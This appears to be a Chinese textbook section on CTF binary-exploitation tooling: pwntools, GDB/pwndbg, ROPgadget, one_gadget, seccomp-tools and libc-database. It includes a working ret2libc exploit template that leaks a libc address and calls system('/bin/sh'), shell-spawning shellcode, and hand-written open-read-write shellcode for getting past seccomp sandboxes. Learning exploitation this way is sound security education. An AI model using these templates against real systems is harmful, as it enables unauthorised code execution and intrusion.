


## 16.5 工具使用

二进制安全PWN的核心在于"看见"目标程序的内部状态，然后精确操控它。要做到这一点，离不开一套完整的工具链。本节从环境搭建开始，逐层介绍分析、调试、利用三个维度的核心工具，并给出真实的工具串联工作流。

### 16.5.1 工具链全景与环境搭建

PWN工具链可以分为四个层次：

| 层次 | 职责 | 代表工具 |
|------|------|----------|
| **环境层** | 提供隔离、可复现的分析环境 | Docker、pwntools-dev环境、Ubuntu版本管理 |
| **侦察层** | 获取目标程序的静态信息 | checksec、file、readelf、objdump、Ghidra |
| **调试层** | 动态观察程序运行状态 | GDB + pwndbg、strace、ltrace、QEMU |
| **利用层** | 构造和发送利用载荷 | pwntools、ROPgadget、one_gadget、ropper |



#### 环境搭建清单

```bash
# 1. 基础依赖
sudo apt update && sudo apt install -y \
    gcc g++ gdb python3 python3-pip \
    libssl-dev libffi-dev ruby-full \
    qemu-user qemu-user-static \
    libc6-dev-i386  # 32位交叉编译支持

# 2. pwntools — PWN的瑞士军刀
pip3 install pwntools

# 3. GDB + pwndbg — 最强调试组合
git clone https://github.com/pwndbg/pwndbg.git
cd pwndbg && ./setup.sh

# 4. ROPgadget — gadget搜索
pip3 install ROPgadget

# 5. one_gadget — libc一键shell gadget
gem install one_gadget

# 6. seccomp-tools — 沙箱规则分析
gem install seccomp-tools

# 7. Ghidra — 逆向分析（免费IDA替代）
# 从 https://ghidra-sre.org/ 下载，需要JDK 17+
sudo apt install openjdk-17-jdk
# 解压后运行: ./ghidraRun

# 8. ropper — 另一个gadget搜索工具
pip3 install ropper

# 9. pwninit — 自动化题目环境初始化
cargo install pwninit
```

> **版本注意事项：** pwntools依赖的paramiko库在Python 3.12+可能存在兼容性问题。推荐使用Python 3.10或3.11的虚拟环境。

### 16.5.2 侦察层工具：认识你的目标

在动手利用之前，必须先摸清目标程序的"底细"：架构、保护机制、符号表、动态链接库。

#### checksec — 安全机制速查

`checksec`是分析二进制文件安全防护机制的第一步，直接决定后续利用策略：

```bash
checksec --file=./vuln
# 输出示例：
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    No canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)
#     RWX:      Has RWX segments
```

各字段含义及对利用策略的影响：

| 机制 | 关闭时的含义 | 启用时的应对策略 |
|------|-------------|-----------------|
| **Canary** | 栈溢出可直接覆盖返回地址 | 需要先泄露canary值，再构造payload |
| **NX** | 栈上可执行shellcode | 需要用ret2libc、ROP等不依赖栈执行的技巧 |
| **PIE** | 程序地址固定（如0x400000起） | 需要先泄露基地址，再计算实际地址 |
| **RELRO** | GOT表可写（Partial RELRO） | 需要用其他方式（如ret2dlresolve）控制执行流 |
| **ASLR** | 系统级地址随机化 | 需要泄露libc/栈地址来计算偏移 |

> **实战技巧：** `checksec`的输出是选择利用策略的决策树入口。Canary关闭+NX关闭=直接shellcode；Canary关闭+NX启用=ret2libc；Canary启用=先泄露再溢出。永远从checksec开始。

#### file 与 readelf — 文件基础信息

```bash
# 快速判断架构和类型
file ./vuln
# ./vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
# dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
# for GNU/Linux 3.2.0, not stripped

# 查看所有段信息
readelf -S ./vuln

# 查看动态链接库依赖
readelf -d ./vuln | grep NEEDED
# 0x0000000000000001 (NEEDED)  Shared library: [libc.so.6]

# 查看符号表（未strip的二进制）
readelf -s ./vuln | grep -E "FUNC|OBJECT" | head -20

# 查看程序入口点
readelf -h ./vuln | grep "Entry point"
```

#### objdump — 反汇编利器

```bash
# 反汇编指定函数
objdump -d ./vuln -M intel | sed -n '/<main>:/,/^$/p'

# 查看GOT表内容
objdump -R ./vuln | grep -E "puts|printf|system|read"

# 查看所有字符串
objdump -s -j .rodata ./vuln
```

#### Ghidra — 深度逆向分析

当程序被strip（去除符号表）或者逻辑复杂时，Ghidra是不可或缺的逆向工具。它的反编译能力可以将汇编还原成近似C伪代码：

```python
# Ghidra headless模式批量分析（无需GUI）
analyzeHeadless /tmp/project MyProject -import ./vuln \
    -postScript DecompileAll.java -scriptPath /tmp/scripts/
```

Ghidra在PWN中的典型使用场景：

| 场景 | 操作 | 产出 |
|------|------|------|
| 程序被strip | 自动函数识别+反编译 | 恢复函数名、理解逻辑 |
| 漏洞定位 | 查看危险函数调用（gets/strcpy/sprintf） | 精确定位溢出点 |
| 数据结构分析 | 识别struct布局、虚表指针 | 理解堆利用的chunk结构 |
| 控制流分析 | 识别条件分支、循环 | 寻找可绕过的安全检查 |

> **IDA Pro vs Ghidra：** IDA Pro是商业软件，反编译质量略优，但Ghidra免费且功能接近。在CTF和日常分析中，Ghidra完全够用。二者都支持Python脚本扩展，可以通过脚本批量提取符号、交叉引用等信息。

### 16.5.3 pwntools — 利用开发的核心框架

pwntools是Python编写的PWN开发框架，将连接、打包、shellcode生成、交互等操作封装成简洁的API。它是PWN利用开发的事实标准。

#### 连接与进程管理

```python
from pwn import *

# 远程连接（打CTF远程靶机或真实目标）
p = remote('challenge.example.com', 1337)
p = remote('127.0.0.1', 1337, ssl=True)  # TLS连接

# 本地进程（本地调试，加载自定义libc和ld）
p = process('./vuln')
p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})
p = process(['./vuln', 'arg1', 'arg2'])  # 带命令行参数

# 远程+指定libc和ld（pwninit生成的环境）
p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})
# 等价于：patchelf --set-interpreter ./ld-linux.so.2 --set-rpath . ./vuln
```

#### 数据打包与解包

PWN的核心操作之一就是构造二进制数据。理解字节序和指针宽度是基础中的基础：

```python
# 打包：将整数转为字节序列（小端序）
p64(0xdeadbeef)           # b'\xef\xbe\xad\xde\x00\x00\x00\x00'（64位）
p32(0xdeadbeef)           # b'\xef\xbe\xad\xde'（32位）
p16(0x1234)               # b'\x34\x12'
p8(0x41)                  # b'A'

# 解包：将字节序列转回整数
u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')  # 0xdeadbeef
u32(b'\xef\xbe\xad\xde')  # 0xdeadbeef

# 大端序（网络字节序，某些MIPS/ARM固件）
p64(0xdeadbeef, endian='big')

# 一次性构造完整payload
payload  = b'A' * 64          # 填充到返回地址
payload += p64(0x401234)      # 覆盖返回地址
payload += p64(0x404000)      # 第一个参数
```

#### shellcode生成

pwntools内置了跨架构的shellcode生成器`shellcraft`：

```python
# x86-64获取shell
shellcode = asm(shellcraft.sh())
# 等价于execve("/bin/sh", NULL, NULL)的机器码

# 读取flag文件（绕过seccomp禁用execve的情况）
shellcode = asm(shellcraft.cat('/flag'))
# 等价于 open("/flag") + read(fd, buf, size) + write(1, buf, size)

# ARM架构shellcode
context.arch = 'arm'
shellcode = asm(shellcraft.sh())

# 自定义shellcode（ORW绕过沙箱）
shellcode  = asm(shellcraft.open('/flag'))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))

# 查看shellcode的汇编
print(asm(shellcraft.sh(), arch='amd64').hex())
```

#### cyclic pattern — 精确定位偏移

手动计算填充字节数容易出错，`cyclic`生成的de Bruijn序列可以自动定位溢出偏移：

```python
# 生成100字节的cyclic pattern
payload = cyclic(100)
# 输出: b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabb...'

# 在GDB中程序崩溃后，查看RIP/ESP被覆盖的值
# 假设RIP = 0x6161616c (即 'laaa')

# 用cyclic_find计算偏移
offset = cyclic_find(0x6161616c)   # 返回28
# 意味着需要填充28字节才能精确覆盖返回地址

# 64位系统中，有时覆盖的是小端编码
offset = cyclic_find(u32(b'laaa'))  # 同样返回28
```

> **工作流：** 生成cyclic → 发送到目标 → 观察崩溃地址 → cyclic_find计算偏移 → 构造正式payload。这四步是每次PWN的标准流程。

#### 交互式通信

```python
# 发送数据
p.send(b'hello')             # 原始发送
p.sendline(b'hello')         # 发送 + 换行
p.sendafter(b'>> ', payload) # 等待提示符后发送
p.sendlineafter(b'>> ', payload)

# 接收数据
data = p.recv(1024)          # 接收指定字节
data = p.recvline()          # 接收一行
data = p.recvuntil(b'$ ')    # 接收到指定模式
data = p.recvall()           # 接收所有数据（直到EOF）

# 交互模式（获取shell后手动操作）
p.interactive()
```

#### GDB调试集成

pwntools可以直接启动GDB并附加到进程，这是调试exploit的关键能力：

```python
# 启动GDB附加到进程
p = process('./vuln')
gdb.attach(p, '''
    b *0x401234
    b *main+100
    c
''')

# 配合GDB脚本自动化调试
gdbscript = '''
set pagination off
b *vuln_func
c
'''
gdb.attach(p, gdbscript)

# 如果是远程进程，可以用gdb.debug启动
p = gdb.debug('./vuln', '''
    b main
    c
''')
```

#### 完整exploit模板

以下是一个结构清晰的exploit模板，建议每次做题都以此为基础修改：

```python
#!/usr/bin/env python3
from pwn import *

# ============ 配置 ============
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'  # 调试时打开，提交时关闭

# ============ 连接 ============
if args.REMOTE:
    p = remote('challenge.example.com', 1337)
    libc = ELF('./libc.so.6')
else:
    p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})
    libc = ELF('./libc.so.6')

elf = ELF('./vuln')

# ============ 辅助函数 ============
def send_payload(payload):
    p.sendlineafter(b'>> ', payload)

# ============ 泄露阶段 ============
# 示例：通过格式化字符串或ROP泄露libc地址
payload  = b'A' * 72
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['main'])

send_payload(payload)
p.recvline()  # 吃掉换行
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f'puts@libc = {hex(leaked)}')

libc.address = leaked - libc.sym['puts']
log.success(f'libc base = {hex(libc.address)}')

# ============ 利用阶段 ============
payload  = b'A' * 72
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])

send_payload(payload)

# ============ 交互 ============
p.interactive()
```

### 16.5.4 GDB + pwndbg — 动态调试的核心

GDB配合pwndbg插件是PWN动态分析的核心工具链。pwndbg相比原生GDB和GEF，在堆分析、内存可视化方面有显著优势。

#### pwndbg高频命令速查

```bash
# ============ 堆分析 ============
heap                    # 显示所有堆chunk及状态
bins                    # 查看tcache/fastbin/unsorted bin链表
vis_heap_chunks         # 可视化堆布局（地址+内容+chunk边界）
heap_chunks             # 列出所有chunk的地址和大小
malloc_chunk <addr>     # 查看指定chunk的详细信息

# ============ 内存映射 ============
vmmap                   # 等价于 cat /proc/<pid>/maps，但更易读
vmmap libc              # 只显示libc相关映射
search -s "/bin/sh"     # 搜索内存中的字符串
search -x "4889e5"      # 搜索指定字节序列

# ============ 栈分析 ============
stack 20                # 显示栈上20个值
telescope $rsp 30       # 智能展开栈上的指针链（跟踪指针指向的内容）
cannibalism             # 检测canary值

# ============ 寄存器与指令 ============
context                 # 显示完整的上下文（寄存器+代码+栈+反汇编）
regs                    # 只显示寄存器
nextcall                # 执行到下一个call指令
stepuntilasm <asm>      # 执行直到遇到指定汇编指令

# ============ 断点与调试 ============
b *0x401234             # 在指定地址下断点
b *main+100             # 在main函数偏移100处下断点
c                       # 继续执行
ni                      # 单步（不进入call）
si                      # 单步（进入call）
fini                    # 执行到当前函数返回
```

#### 调试ASLR

```bash
# 在GDB中查看ASLR状态
show disable-randomization

# 关闭ASLR（调试时默认关闭，方便分析）
set disable-randomization on

# 开启ASLR（验证exploit在随机化下的鲁棒性）
set disable-randomization off

# 系统级ASLR控制
cat /proc/sys/kernel/randomize_va_space
# 0 = 关闭    1 = 半随机（栈+mmap）    2 = 全随机（默认）
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # 临时关闭
```

#### GDB脚本自动化

对于复杂的调试场景，可以将常用操作编写成GDB脚本：

```python
# debug_exploit.py — 配合pwntools使用
gdbscript = '''
set pagination off
set confirm off

# 在关键函数下断点
b *vuln_func
b *read_input

# 到第一个断点后自动打印堆状态
commands 1
    heap
    bins
    c
end

c
'''

p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})
gdb.attach(p, gdbscript)
```

#### 调试strip后的二进制

程序被strip后没有符号表，需要通过地址下断点：

```bash
# 方法1：通过vmmap找基地址 + Ghidra中的偏移
b *0x555555554000 + 0x1234   # PIE程序基地址 + Ghidra偏移

# 方法2：通过plt表下断点（plt地址在checksec中可见）
b *0x400520                   # puts@plt

# 方法3：通过GOT表观察实际解析地址
x/gx 0x601020                 # 查看puts@got的值
```

### 16.5.5 Gadget搜索工具

ROP利用的核心前提是在二进制中找到可用的gadget（以`ret`/`call`/`jmp`结尾的短指令片段）。主流的gadget搜索工具有三个，各有侧重。

#### ROPgadget — 最常用的gadget搜索

```bash
# 搜索所有gadget
ROPgadget --binary ./vuln

# 只搜索含 pop 和 ret 的gadget
ROPgadget --binary ./vuln --only "pop|ret"

# 搜索含特定寄存器操作的gadget
ROPgadget --binary ./vuln --only "pop|mov|ret"

# 搜索libc中的特定字符串
ROPgadget --binary libc.so.6 --string "/bin/sh"

# 搜索指定字节序列（用于构造特定gadget）
ROPgadget --binary ./vuln --opcode c3        # 搜索所有ret指令
ROPgadget --binary ./vuln --opcode "58c3"    # pop rax; ret

# 输出为Python字典格式（直接粘贴到exploit中）
ROPgadget --binary ./vuln --ropchain

# 搜索结果输出到文件（大量gadget时）
ROPgadget --binary ./vuln --only "pop|ret" > gadgets.txt
```

#### ropper — 交互式gadget搜索

ropper相比ROPgadget，支持交互式搜索和更灵活的过滤：

```bash
# 启动交互模式
ropper -f ./vuln

# 交互模式中的常用命令
ropper> search pop rdi         # 搜索 pop rdi; ret
ropper> search mov rax, rdi    # 搜索 mov rax, rdi 相关
ropper> search int 0x80        # 搜索系统调用
ropper> search /bin/sh         # 搜索字符串引用
ropper> set arch x86_64        # 设置架构
ropper> set badchars "\x00"    # 设置坏字符过滤
ropper> clear                  # 清除所有gadget缓存

# 命令行直接搜索
ropper -f ./vuln --search "pop rdi"
ropper -f libc.so.6 --search "pop rax" --badchars "\x00"
```

#### ROPgadget vs ropper对比

| 特性 | ROPgadget | ropper |
|------|-----------|--------|
| 安装 | `pip install ROPgadget` | `pip install ropper` |
| 速度 | 较快（纯正则匹配） | 较慢（语义分析） |
| 交互模式 | 无 | 支持（类似shell） |
| 坏字符过滤 | 不支持 | 支持 `--badchars` |
| 自动链构建 | `--ropchain` | 有限支持 |
| 适用场景 | 快速搜索常用gadget | 复杂gadget组合、排除坏字符 |

> **选择建议：** 日常使用ROPgadget（速度快），当需要排除坏字符或搜索复杂模式时用ropper。

### 16.5.6 one_gadget — 一键获取shell

`one_gadget`搜索libc中能直接执行`execve("/bin/sh", NULL, NULL)`的单一地址。当满足特定寄存器/内存约束条件时，只需要控制RIP跳转到该地址即可获取shell，无需构造完整的ROP链。

```bash
# 搜索libc中的one_gadget
one_gadget libc.so.6

# 输出示例：
# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL
#
# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
#
# 0x10a41c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
```

每个one_gadget都有约束条件（constraints），必须在运行时满足才能成功：

| 约束类型 | 含义 | 验证方法 |
|----------|------|----------|
| `rsp & 0xf == 0` | 栈指针16字节对齐 | GDB中查看`p $rsp & 0xf` |
| `rcx == NULL` | rcx寄存器为0 | GDB中查看`p $rcx` |
| `[rsp+0x40] == NULL` | 栈偏移0x40处为NULL | GDB中查看`x/gx $rsp+0x40` |

```python
# 在exploit中使用one_gadget
one_gadget_addr = libc.address + 0x4f3d5

payload  = b'A' * offset
payload += p64(one_gadget_addr)  # 直接跳转，不需要额外参数

# 如果one_gadget有对齐约束，可以通过ret指令栈对齐
payload  = b'A' * offset
payload += p64(rop.find_gadget(['ret'])[0])  # 栈对齐
payload += p64(one_gadget_addr)
```

> **实战技巧：** 如果第一个one_gadget不满足约束，试试其他地址。通常libc中有3-5个one_gadget，约束条件各不相同。另外，可以通过精心构造ROP链先满足约束条件（如将rcx置零），再跳转到one_gadget。

### 16.5.7 libc-database — 匹配libc版本

当你泄露了libc中某个函数的地址，但不知道具体是哪个libc版本时，`libc-database`可以帮你精确匹配：

```bash
# 安装
git clone https://github.com/niklasb/libc-database.git
cd libc-database && ./get

# 通过泄露的函数地址匹配libc版本
# 格式：./find <函数名> <地址低12位>
./find puts 2a0
# 或者
./find system 450

# 输出示例：
# archive-glibc (id libc6_2.27-3ubuntu1.4_amd64)
#   puts: 0x80a00
#   system: 0x4f550
#   str_bin_sh: 0x1b3e1a

# 下载匹配到的libc
./download libc6_2.27-3ubuntu1.4_amd64
```

```python
# 在线libc搜索（更方便）
# https://libc.blukat.me/
# 输入puts的低12位 + 系统信息，直接返回libc版本和所有函数偏移

# 或使用pwntools内置的libcdb
from pwn import *
libc = libcdb.search_by_build_id('abcdef1234567890...')
libc = libcdb.search_by_sha256('a1b2c3...')
```

> **为什么要匹配libc版本？** 不同版本的libc中，`system`、`"/bin/sh"`字符串、one_gadget的偏移完全不同。用错libc版本是exploit失败的最常见原因之一。

### 16.5.8 seccomp沙箱分析

许多现代CTF题目和生产环境启用了seccomp（Secure Computing Mode）沙箱，限制可使用的系统调用。分析沙箱规则是绕过的前提。

#### seccomp-tools使用

```bash
# 安装
gem install seccomp-tools

# 分析二进制的seccomp规则
seccomp-tools dump ./vuln

# 输出示例：
#  line  CODE  JT   JF      K
# =================================
#  0000: 0x20 0x00 0x00 0x00000004  A = arch
#  0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
#  0002: 0x20 0x00 0x00 0x00000000  A = sys_number
#  0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
#  0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
#  0005: 0x15 0x05 0x00 0x0000003b  if (A == execve) goto 0011
#  0006: 0x15 0x04 0x00 0x00000142  if (A == execveat) goto 0011
#  ...
#  0011: 0x06 0x00 0x00 0x00000000  return KILL
#  0012: 0x06 0x00 0x00 0x00050026  return ERRNO(38)

# 以JSON格式输出（便于脚本解析）
seccomp-tools dump ./vuln --format json

# 运行时抓取seccomp规则（适用于运行时才加载规则的程序）
seccomp-tools dump ./vuln --output rules.txt
```

#### 常见沙箱规则解读

```python
# seccomp-tools输出的关键字段：
# - return KILL: 调用该系统调用则进程被杀死
# - return ALLOW: 允许该系统调用
# - return ERRNO(38): 返回错误码38（ENOSYS，功能未实现）
# - return TRACE: 可被ptrace捕获（常用于调试）
```

| 沙箱场景 | 禁用的系统调用 | 绕过策略 |
|----------|---------------|----------|
| 禁execve | execve, execveat | ORW（open+read+write）读取flag |
| 禁execve+write | execve, write | ORW中write替换为sendfile |
| 只允许read/write | 除read/write外全部 | openat替代open，sendfile替代write |
| 只允许白名单 | 严格白名单 | 在允许的系统调用内寻找利用空间 |

#### ORW绕过沙箱

当execve被禁用时，最常用的绕过方案是ORW（Open-Read-Write）：

```python
# ORW shellcode（pwntools生成）
shellcode  = asm(shellcraft.open('/flag'))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))

# 如果需要手动构造ORW（某些限制场景）
context.arch = 'amd64'
shellcode = asm('''
    /* open("/flag", O_RDONLY) */
    mov rax, 2           /* sys_open */
    lea rdi, [rip+flag]  /* filename */
    xor rsi, rsi         /* O_RDONLY */
    xor rdx, rdx
    syscall

    /* read(fd, buf, 0x100) */
    mov rdi, rax         /* fd from open */
    lea rsi, [rip+buf]   /* buffer */
    mov rdx, 0x100       /* count */
    xor rax, rax         /* sys_read */
    syscall

    /* write(1, buf, count) */
    mov rdi, 1           /* stdout */
    lea rsi, [rip+buf]
    mov rdx, rax         /* bytes read */
    mov rax, 1           /* sys_write */
    syscall

    /* exit(0) */
    xor rdi, rdi
    mov rax, 60
    syscall

flag: .asciz "/flag"
buf:
''')
```

> **进阶：** 如果read也被禁用，可以尝试`mmap`+`read`组合，或者利用已有的文件描述符。某些题目可以通过`openat`（系统调用号257）替代`open`（系统调用号2），因为沙箱规则可能遗漏了openat。

### 16.5.9 系统调用跟踪工具

#### strace — 跟踪系统调用

`strace`可以跟踪程序的所有系统调用，是理解程序行为和定位漏洞的重要辅助工具：

```bash
# 跟踪程序的所有系统调用
strace ./vuln

# 只跟踪指定系统调用
strace -e trace=open,read,write,mmap ./vuln

# 跟踪并显示字符串内容
strace -s 4096 ./vuln

# 跟踪已有进程
strace -p <pid>

# 统计系统调用耗时
strace -c ./vuln

# 跟踪子进程
strace -f ./vuln
```

#### ltrace — 跟踪库函数调用

```bash
# 跟踪动态库函数调用（puts, printf, malloc等）
ltrace ./vuln

# 跟踪并显示参数和返回值
ltrace -s 512 ./vuln

# 跟踪指定函数
ltrace -e puts+printf ./vuln
```

> **strace vs ltrace：** strace跟踪内核系统调用（read/write/mmap等），ltrace跟踪用户态库函数（puts/printf/malloc等）。对于PWN分析，ltrace更有用——可以直接看到程序调用了哪些危险函数，以及传入的参数。

### 16.5.10 pwninit — 自动化题目初始化

CTF题目通常提供二进制文件+libc+ld，但程序可能硬编码了特定的libc路径。`pwninit`自动完成patch和环境配置：

```bash
# 自动检测并初始化题目环境
pwninit

# 输出示例：
#  [*] ./vuln
#      Arch:     amd64-64-little
#      RELRO:    Partial RELRO
#      Stack:    No canary found
#      NX:       NX enabled
#      PIE:      No PIE (0x400000)
#  [*] libc.so.6
#      BuildID:  abcdef1234567890
#  [*] Patching binary to use local libc
#      patchelf --set-interpreter ./ld-2.27.so --set-rpath . ./vuln
#  [*] Writing solve.py template

# pwninit会：
# 1. 检测题目二进制架构和保护机制
# 2. 用patchelf将ld路径替换为本地ld
# 3. 生成exploit模板solve.py
# 4. 生成unstrip_libc（如果libc被strip）
```

### 16.5.11 完整工具串联工作流

以下展示一个完整的PWN题目从分析到利用的工具串联流程：



#### 典型工作流示例

```bash
# 第一步：侦察
checksec --file=./vuln
file ./vuln
# 发现：64位、NX启用、No PIE、No canary → 可以用ROP+ret2libc

# 第二步：pwninit初始化
pwninit  # 自动patch二进制匹配本地libc

# 第三步：静态分析（Ghidra中发现vuln函数调用了gets）

# 第四步：动态调试确认
# GDB中下断点，观察栈布局
gdb ./vuln
# b vuln_func
# r
# 输入cyclic(200)，观察崩溃时RIP

# 第五步：计算偏移
python3 -c "from pwn import *; print(cyclic_find(0x6161616c))"

# 第六步：搜索gadget
ROPgadget --binary ./vuln --only "pop|ret"
# 找到 pop rdi; ret @ 0x40123b
one_gadget libc.so.6
# 找到 one_gadget @ libc+0x4f3d5

# 第七步：编写exploit
# （使用16.5.3节的exploit模板）

# 第八步：本地测试 → 远程攻击
python3 exploit.py                # 本地
python3 exploit.py REMOTE         # 远程
```

### 16.5.12 工具使用常见误区

**误区一：忘记设置context.arch**

```python
# ❌ 错误：不设置架构，shellcode生成可能用错架构
from pwn import *
shellcode = asm(shellcraft.sh())  # 默认可能是i386

# ✅ 正确：显式设置架构
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())
```

**误区二：用错libc版本**

```python
# ❌ 错误：直接用系统libc，而不是题目提供的libc
p = process('./vuln')  # 用的是系统libc

# ✅ 正确：用patchelf后的二进制或LD_PRELOAD
p = process('./vuln_patched')  # pwninit生成的patched二进制
# 或
p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})
```

**误区三：one_gadget约束不满足就放弃**

```python
# ❌ 错误：one_gadget失败就放弃使用
# 约束条件不满足时直接切回完整ROP链

# ✅ 正确：先用ROP链满足约束，再跳one_gadget
payload  = b'A' * offset
payload += p64(rop.find_gadget(['pop rcx', 'ret'])[0])  # rcx = 0
payload += p64(0)
payload += p64(one_gadget_addr)
```

**误区四：GDB调试时忽略ASLR**

```bash
# ❌ 错误：在GDB中调试成功但exploit打远程失败
# 因为GDB默认关闭ASLR，地址是固定的

# ✅ 正确：最终测试时开启ASLR验证
set disable-randomization off
```

**误区五：远程环境与本地不一致**

```python
# ❌ 错误：本地能打通，远程打不通
# 原因：本地和远程libc版本不同、环境不同

# ✅ 正确：始终使用题目提供的libc和ld
# 远程验证时使用相同的payload
```

### 16.5.13 本节小结

| 工具 | 核心功能 | 使用场景 |
|------|----------|----------|
| checksec | 查看安全机制 | 每次分析的第一步 |
| Ghidra | 反编译和逆向 | 漏洞定位、strip程序分析 |
| pwntools | exploit开发框架 | 构造payload、连接目标、交互 |
| GDB+pwndbg | 动态调试 | 确认漏洞、观察堆栈、验证exploit |
| ROPgadget/ropper | gadget搜索 | ROP链构造 |
| one_gadget | 一键shell gadget | 简化ROP链 |
| seccomp-tools | 沙箱规则分析 | 识别和绕过系统调用限制 |
| libc-database | libc版本匹配 | 确定函数偏移 |
| strace/ltrace | 系统调用/库函数跟踪 | 辅助理解程序行为 |
| pwninit | 题目环境初始化 | 自动patch二进制、生成模板 |

工具是手段，理解漏洞原理才是目的。这些工具的价值在于让分析过程更高效、更精确，但工具本身不能替代对内存管理、栈帧结构、堆分配器等底层原理的理解。在学习工具使用的同时，务必同步深化对PWN原理的掌握。
